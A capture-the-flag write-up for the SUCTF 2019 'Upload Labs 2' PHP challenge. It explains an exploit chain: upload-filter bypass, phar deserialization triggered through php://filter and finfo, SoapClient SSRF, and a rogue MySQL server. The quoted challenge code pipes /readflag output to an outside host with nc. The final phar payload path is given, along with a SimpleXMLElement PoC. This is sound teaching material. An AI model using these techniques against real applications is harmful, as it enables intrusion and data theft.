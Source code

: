 ### References

- [@peri0d, SUCTF 2019 Upload labs 2 踩坑记录, 2020-03-11](https://www.cnblogs.com/peri0d/p/12465523.html)
- [@Zedd, SUCTF 2019 出题笔记 & phar 反序列化的一些拓展, 2019-08-24](https://xz.aliyun.com/t/6057#toc-2)
- [MySQL connect file read, 2016-04-20](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)

**Tag: Phar Unserialize, MySQL Client Read Arbitrary File, SoapClient**

Source code in: [Upload Labs 2](https://github.com/team-su/SUCTF-2019/tree/master/Web/Upload%20Labs%202)

1.In `index.php`, here are only allowed to upload image

```php
if (isset($_POST["upload"])) {
    $allowedExts = array("gif", "jpeg", "jpg", "png");
```

Also checked the `content-type` and limit the image size to 200k:

```php
if ((($_FILES["file"]["type"] == "image/gif")
            || ($_FILES["file"]["type"] == "image/jpeg")
            || ($_FILES["file"]["type"] == "image/png"))
        && ($_FILES["file"]["size"] < 204800)   // 小于 200 kb
        && in_array($extension, $allowedExts)
    )
```

then call the following code:

```php
$c = new Check($tmp_name);
$c->check();

// class.php
function check(){
    $data = file_get_contents($this->file_name);
    if (mb_strpos($data, "<?") !== FALSE) {
        die("&lt;? in contents!");
    }
}
```

The file content cannot have `<?` which means the file we upload cannot have `<?php`, But it is also possible to use `<script language='php'>...</script>`.

> **NOTE: Script tags `<script language="php"></script>` are removed from PHP 7.**

2.After successful upload file, we can search it in the `func.php` page. The submitted `url ` parameter are sanitized:

```php
if (isset($_POST["submit"]) && isset($_POST["url"])) {
    if(preg_match('/^(ftp|zlib|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect)(.|\\s)*|(.|\\s)*(file|data|\.\.)(.|\\s)*/i',$_POST['url'])){
        die("Go away!");
    }
```

This is to filter phar unserialize, but the same thing can be done with the `php://`.

Then create `File` class and call the `getMIME` methods:

```php
$file_path = $_POST['url'];
$file = new File($file_path);
$file->getMIME();

// class.php
function getMIME(){
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $this->type = finfo_file($finfo, $this->file_name);
    finfo_close($finfo);
}
```

As @Zedd said, the `finfo_open` method also can trigger the phar unserialize. 

So now, we can create a phar file, disguised as a gif file and upload it. Then read it through the `php://` and trigger phar unserialize.

3.`File` class has a `__wakeup` method:

```php
function __wakeup(){
    $class = new ReflectionClass($this->func);
    $a = $class->newInstanceArgs($this->file_name);
    $a->check();
}
```

If we unserialize the `File` class, we can call the `check` method of any class here. Or we should thing about the `__call` magic function.

In `admin.php`, we can see the following code:

```php
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1')
```

This made me think of the SoapClient class immediately, it's `__call` function can be used for SSRF.

4.In `admin.php`, here have some very additionally puzzling code:

```php
$admin = new Ad($ip, $port, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
$admin->check();

function check(){
    $reflect = new ReflectionClass($this->clazz);
    $this->instance = $reflect->newInstanceArgs();

    $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
    $reflectionMethod->invoke($this->instance, $this->arg1);

    $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
    $reflectionMethod->invoke($this->instance, $this->arg2);

    $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
    $reflectionMethod->invoke($this->instance, $this->arg3);
}
```

Mentioned in @Zedd's notes(refer[2]), if the environment `Ad` class using `__destruct`, the above code is useless.

```php
function __destruct(){
    getFlag($this->ip, $this->port);
}
```

But the real environment `Ad` class uses `__wakeup`:

```php
function __wakeup(){
    system("/readflag | nc $this->ip $this->port");
}
```

So we need to unserialize the `Ad` class to get flag.

In mysqli, `LOAD DATA LOCAL INFILE` trigger phar unseriliaze again. So the code in the check function actually corresponds to the mysql `connect` and `query`:

```php
$reflect = new ReflectionClass('Mysqli');
$sql = $reflect->newInstanceArgs();

$reflectionMethod = new ReflectionMethod('Mysqli', 'init');
$reflectionMethod->invoke($sql, $arr);

$reflectionMethod = new ReflectionMethod('Mysqli', 'real_connect');    // php bug #77496
$reflectionMethod->invoke($sql, 'ip','root','123456','testdb','3306');

$reflectionMethod = new ReflectionMethod('Mysqli', 'query');
$reflectionMethod->invoke($sql, 'select 1');
```

We only need to use Rogue Mysql Server :)

5.All we have to do is link the two unserializations. Generate gif file using `poc1.php` and `poc2.php` respectively and upload them. Get the path:

```te
1.gif: upload/46c01c941bd10a9c3038752f7354f2e8/b5e9b4f86ce43ca65bd79c894c4a924c.gif
2.gif: upload/46c01c941bd10a9c3038752f7354f2e8/274a01ad7ad7ad7d73d5f0b399ae5db2.gif
```

Meanwhile, run `rogue_mysql.py` with 2.gif filename and listen a port on vps to get the `system` function results.

Then go to the `func.php` page and submit the url with 1.gif path:

```php
php://filter/resource=phar://./upload/46c01c941bd10a9c3038752f7354f2e8/b5e9b4f86ce43ca65bd79c894c4a924c.gif
```

![](https://i.imgur.com/kLwysqs.png)

---

### PS

Here is only one line of code in the `config.php`:

```php
libxml_disable_entity_loader(true);
```

Means that external entities are disabled, but why?

In reference[2], we can find the `SimpleXMLElement` class also can trigger the phar unserialize! POC:

```php
<?php
error_reporting(0);
class A {
    public function __wakeup() {
        echo "ok!";
    }
}
$poc = new SimpleXMLElement('http://zedd.cc/test/test.xml', LIBXML_NOENT, True);
```

